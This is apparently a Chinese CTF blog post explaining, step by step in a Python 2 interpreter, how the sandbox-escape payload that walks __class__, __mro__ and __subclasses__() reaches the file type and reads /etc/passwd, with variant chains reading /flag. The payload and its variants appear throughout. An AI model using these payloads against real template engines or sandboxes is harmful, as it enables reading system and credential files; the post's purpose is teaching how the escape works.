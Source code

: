 ```yaml
---
title: 关于python魔术方法payload："".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() 的解释
date: 2019-01-02 00:00:00
categories:
- CTF/Web
tags: python
---
```


## 总览

```python
"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
```

其实就是类似java的反射，通过一个对象找到另一个对象，这里通过一个字符串对象，找了一个文件对象，然后初始化，读取，就是这么个事。

```python

# 获得一个字符串实例
>>> ""
''

# 获得字符串的type实例
>>> "".__class__ 
<type 'str'>

# 获得其父类
>>> "".__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)

# 获得父类中的object类
>>> "".__class__.__mro__[2] 
<type 'object'>

# 获得object类的子类，但发现这个__subclasses__属性是个方法
>>> "".__class__.__mro__[2].__subclasses__
<built-in method __subclasses__ of type object at 0x10376d320>

# 使用__subclasses__()方法，获得object类的子类
>>> "".__class__.__mro__[2].__subclasses__() 
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]

# 获得第40个子类的一个实例，即一个file实例
>>> "".__class__.__mro__[2].__subclasses__()[40] 
<type 'file'>

# 对file初始化
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd") 
<open file '/etc/passwd', mode 'r' at 0x10397a8a0>

# 使用file的read属性读取，但发现是个方法
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read
<built-in method read of file object at 0x10397a5d0>

# 使用read()方法读取
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
nobody:*:-2:-2:Unprivileged 
User:/var/empty:/usr/bin/false
root:*:0:0:System 
Administrator:/var/root:/bin/sh

```

## 问题

### 问

但我怎么知道```__subclasses__```是一个方法，而不是一个直接可以返回数组的变量呢？我又怎么知道什么类有什么方法或者属性呢？比如我如何知道应该用```__mro__```属性去找父类？而```__mro__```是什么类的成员方法？？

### 答

首先```__subclasses__```是方法还是属性可以根据提示来判断如：

```python
>>> "".__class__.__mro__[2].__subclasses__
<built-in method __subclasses__ of type object at 0x10376d320>
```

另外，python中有一个内置函数是dir()，可以用这个函数来查看传入参数的成员方法以及属性，我们来尝试一下

```python
>>> dir("")
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
>>> dir("".__class__)
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
```
首先我们看到```dir("")与dir("".__class__)```的结果是完全一样的

按照```"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()``` 的利用方法，接下来应该使用```__mro__```这个属性，来获得父类，但是我并没有在```dir("".__class__)```中看到这个属性，这是为什么呢？```__mro__```属性在哪呢？

## type与object

为了解释上面的这个问题，我们先要了解在python中的一个哲学问题，就是type与object的问题，这二位就像是哲学上的物质与意识，不仅相互关联，而且不可分割。

[Python 的 type 和 object 之间是怎么一种关系？](https://blog.csdn.net/piglite/article/details/78294112)

[python中的type和object详解](https://www.cnblogs.com/busui/p/7283137.html)

在Python的世界中：
- object是父子关系的顶端，所有的数据类型的父类都是它
- type是类型实例关系的顶端，所有对象都是它的实例的

也就是说这里不同于我们之前学到的类与对象的关系，这里有两条线，一个是类的关系，一个是实例的关系。也就是说：
- object和type都既是类又是实例
- object是type的一个实例
- type是object的子类

## ```__class__```与```__base__```属性

- ```__class__```属性可以沿着实例这条链往上走一个
- ```__base__```属性可以沿着父子类关系这个条链往上走一个

```python
>>> "".__class__
<type 'str'>
>>> "".__class__.__class__
<type 'type'>
>>> "".__class__.__class__.__base__
<type 'object'>
>>> "".__class__.__class__.__base__.__class__
<type 'type'>
>>> "".__class__.__class__.__base__.__class__.__base__
<type 'object'>
>>> "".__class__.__class__.__base__.__class__.__base__.__class__
<type 'type'>
```

可见之前的结论：object是type的一个实例， type是object的子类

```python
>>> "".__class__
<type 'str'>

>>> "".__base__
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute '__base__'

>>> "".__class__.__base__
<type 'basestring'>
```

我们可以看到""这个字符串对象中是没有```__base__```这个属性的，而```"".__class__```却可以获得，但是我们在前面的dir()函数中传入```""和"".__class__```所获得的结果是一样的啊，这两个都没有```__base__```属性，那么这个属性到底在哪呢？

### ```""```与```"".__class__```的区别

type()函数，用来返回变量的类型，返回的是一个type实例

```python
>>> ""
''
>>> "".__class__
<type 'str'>
>>> type("")
<type 'str'>
>>> type("".__class__)
<type 'type'>
```

我们可以看到字符串变量```""```是```<type 'str'>```的一个实例，而```<type 'str'>```是一个```<type 'type'>```实例，而其实```__base__```这个属性是在```<type 'type'>```中的属性。

## 真相

真相就在```<type 'type'>```中

```python
>>> "".__class__.__class__
<type 'type'>
>>> dir("".__class__.__class__)
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
>>> dir(type("".__class__))
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```
猛然发现这个里有```__base__,__class__,__subclasses__,__mro__```，原来这些玩意都在这里啊，也就是说这几个属性，只要是type实例应该都有。

## 重看利用

```python
"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
```

1. 通过```"".__class__```获得一个```<type 'str'>```的实例
2. 因为```<type 'str'>```是```<type 'type'>```的一个实例，所以可用```<type 'type'>```的__mro__属性获得其父类的顶端```<type 'object'>```
3.  因为```<type 'object'>```是```<type 'type'>```的一个实例，所以可用```<type 'type'>```的```__subclasses__()```函数获得object的所有子类
4.  找到第40个子类是文件，然后初始化调用读取方法即可


## 非得用```__mro__```么

我们看到，我们无非是要找到```<type 'object'>```然后调用```__subclasses__()```函数，因为object是父类的顶端，也即是用```__base__```到顶，所以如下方式均可成功：

```python

>>> "".__class__.__base__.__base__.__subclasses__()[40]("/flag").read()
'63572fda-25fa-46bf-abae-94314f11a4a1\n'
>>> type("".__class__).__base__.__subclasses__()[40]("/flag").read()
'63572fda-25fa-46bf-abae-94314f11a4a1\n'
```
## 总结函数

- ```__base__```：子类找父类
- ```__subclasses__()```：父类找子类
- ```__class__```：子实例找父实例

看起来好像没有父实例找子实例的方法或者属性


